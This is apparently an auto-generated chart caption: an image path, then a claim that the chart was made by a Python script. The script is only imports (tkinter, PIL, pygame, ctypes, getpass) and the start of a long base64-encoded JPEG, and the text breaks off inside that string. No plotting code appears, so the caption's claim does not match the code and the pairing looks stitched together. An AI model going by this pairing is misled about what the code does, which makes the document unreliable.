

This chart was generated by the following Python code:
from tkinter import Tk, Label, Button
from PIL import Image, ImageTk
import base64
import io
import random
import os
import time
import threading
import pygame
import ctypes
import getpass

img_data = b'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